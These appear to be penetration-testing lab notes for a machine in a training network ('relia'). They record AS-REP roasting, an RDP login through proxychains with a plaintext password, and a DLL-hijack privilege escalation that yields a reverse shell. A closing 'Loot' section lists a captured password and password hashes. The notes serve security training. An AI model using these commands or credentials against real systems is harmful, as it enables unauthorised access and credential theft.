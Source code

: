 - Since we get `relia\michelle`'s password through AS-REP Roasting and she is within group `INTRANETRDP`. We can `rdp` into the host which can be confirmed by running `netexec`. ![[Pasted image 20240222123608.png]]
- Run `proxychains -q xfreerdp /v:172.16.130.7 /d:relia /u:michelle /p:NotMyPassword0k\? /drive:resources,/home/saxon/Desktop /dynamic-resolution` to obtain a `rdp` session. 
# PrivEsc
- `winpeas` will identify that possible DLL hijack for a service called `scheduler`.![[Pasted image 20240222132843.png]]
	- Running `Get-CimInstance win32_service | Select Name,StartName,PathName,State | Where-Object {$_.State -like 'Running'}` can identify that the service is running under  local administrator .
	- `Restart-Service -Name scheduler` confirms we can restart the service.
	- A reveal on the executable can identify that is is missing `beyondhelper.dll`.
- Run `copy \\tsclient\resources\beyondhelper.dll C:\Scheduler` and `Restart-Service -Name scheduler` to receive a reverse shell as local administrator.
# Loot
- `relia\andrea`: PasswordPassword_6
	- ce3f12443651168b3793f5fbcccff9db
- `Administrator`: 8b4547a5116dd13e6e206d1286a06b28